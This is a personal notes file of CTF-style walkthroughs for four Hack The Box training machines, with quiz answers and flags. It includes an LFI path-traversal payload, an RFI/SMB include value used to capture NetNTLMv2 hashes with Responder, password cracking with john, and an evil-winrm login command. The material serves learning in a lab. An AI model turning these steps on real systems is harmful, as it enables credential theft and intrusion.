 ```yaml
---
created: 2022-05-27T18:52:36+10:00
updated: 2022-08-29T01:02:02+10:00
---
```

# Appointment
[[sql]] [[sqli]] [[mariadb]]

1. [x] What does the acronym SQL stand for?
    - `structured query language`
2. [x] What is one of the most common type of SQL vulnerabilities?
    - `sql injection`
3. [x] What does PII stand for?
    - honestly no clue, probably something related to personal information, though i did learn this before <.<
    - - **`personally identifiable information`**
4. [x] What does the OWASP Top 10 list name the classification for this vulnerability?
    - also no idea, haven't really looked in depth at owasp
    - **`A03:2021-injection`**
        - le what
5. [x] What service and version are running on port 80 of the target?
    - `Apache httpd 2.4.38 ((Debian))`
6. [x] What is the standard port used for the HTTPS protocol?
    - `443`
7. [x] What is one luck-based method of exploiting login pages?
    - `brute-forcing`
    - honestly had to think about this one for a moment
8. [x] What is a folder called in web-application terminology?
    - `directory`
9. [x] What response code is given for "Not Found" errors?
    - `404`
10. [x] What switch do we use with Gobuster to specify we're looking to discover directories, and not subdomains?
    - `dir`
    - why does this not surprise me
11. [x] What symbol do we use to comment out parts of the code?
    - `#`
    - ~~probably~~
12. [x] Submit Flag
    - can't seem to find anything so i had to go through the walkthrough :|
    - ...
    - turns out they've been using `#` as their sql escape sequence... i swear it was normally `--` and that this was just a red herring
    - `e3d0796d002a446c0e622226f42e9672`

## Thoughts
i really feel irritated that it took me over an hour to not realise something this simple

# Sequel
[[sql]] [[mariadb]] [[weak password]]
1. What does the acronym SQL stand for?
    - `structured query language`
2. During our scan, which port running mysql do we find?
    - `3306`
3. What community-developed MySQL version is the target running?
    - `mariadb`
4. What switch do we need to use in order to specify a login username for the MySQL service?
    - `-u`
5. Which username allows us to log into MariaDB without providing a password?
    - `root`
6. What symbol can we use to specify within the query that we want to display everything inside a table?
    - `*`
7. What symbol do we need to end each query with?
    1. `;`
8. Submit Flag
    - `7b4bec00d1a39e3dd4e021ec3d915da8`

## Thoughts
This one was amusingly easy, especially after the last box

# Crocodile
[[php]] [[ftp]]
1. What nmap scanning switch employs the use of default scripts during a scan?
    - `-sC`
2. What service version is found to be running on port 21?
    - `vsftpd 3.0.3`
3. What FTP code is returned to us for the "Anonymous FTP login allowed" message?
    - `230`
4. What command can we use to download the files we find on the FTP server?
    - `get`
5. What is one of the higher-privilege sounding usernames in the list we retrieved?
    - `admin`
6. What version of Apache HTTP Server is running on the target host?
    - `2.4.41`
7. What is the name of a handy web site analysis plug-in we can install in our browser?
    - `wappalyzer`
8. What switch can we use with gobuster to specify we are looking for specific filetypes?
    - `-x`
9. What file have we found that can provide us a foothold on the target?
    - `login.php`
    - didn't need gobuster/wappalyzer to find this
10. Submit Flag
    - `c7110277ac44d78b6a9fff2232434d16`

# Responder
[[smb]] [[enumeration]] [[apache]] [[winrm]]

1. How many TCP ports are open on the machine?
    - `3`
2. When visiting the web service using the IP address, what is the domain that we are being redirected to?
    - `unika.htb`
3. Which scripting language is being used on the server to generate webpages?
    - `php`
4. What is the name of the URL parameter which is used to load different language versions of the webpage?
    - `page`
5. Which of the following values for the `page` parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
    - `../../../../../../../../windows/system32/drivers/etc/hosts`
    - lol
6. Which of the following values for the `page` parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe"
    - `//10.10.14.6/somefile`
    - also lol
    - from the walkthrough it turns out that you can even include [[smb|SMB]] shares with windows/php for some cursed reason
    - very useful: `?page=//myhost/file` while serving a SMB share with [[responder]]
7. What does NTLM stand for?
    - `new technology lan manager`
8. Which flag do we use in the Responder utility to specify the network interface?
    - `-I`
    - again with the walkthrough, learned that it can setup a malicious SMB server
    - useful for extracting hashed credentials into a file
9. There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?.
    - `john the ripper`
    - `john -w=/usr/share/wordlists/somelist`
    - out came `badminton`
    - much to my surprise, this was instant, even under a vm
    - really goes to show how bad weak passwords are(and ntlmv2 hashes i guess)
10. What is the password for the administrator user?
    - `badminton`
11. We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on?
    - `5985`
    - had a guess at this because of the panda service
    - from walkthrough:
        - used [[evil-winrm]] to connect to the winrm service
        - `evil-winrm -i TARGET -u administrator -p badminton`
        - had trouble with directory listing to find anything and it turned out i had to (partially) recompile ruby with libreadline which thankfully wasn't hard
        - why this program doesn't have a proper directory listing i don't know (or it was somehow broken)
        - had to do some `download "` with tab completion to find the flag, wasn't very fun
        - `download .../flag.txt flag.txt` with dest filename otherwise it was gonna give it some funky name
12. Submit Flag
    - `ea81b7afddd03efaa0945333ed147fac`